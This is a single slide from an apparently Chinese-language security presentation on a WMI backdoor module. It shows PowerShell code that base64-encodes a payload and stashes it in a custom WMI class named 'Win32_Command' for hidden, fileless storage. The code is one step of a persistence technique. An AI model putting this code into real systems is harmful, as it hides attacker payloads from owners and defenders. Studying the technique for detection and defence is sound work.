

0x02 WMI后门模块
·  Payload存储
示例代码：
#对payload作base64加密
$bytes  = [System.Text.Encoding]::Unicode.GetBytes($Payload);
$EncodedPayload = [System.Convert]::ToBase64String($bytes);

#存储加密后的payload
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('EnCommand', $EncodedPayload)
$StaticClass.Put()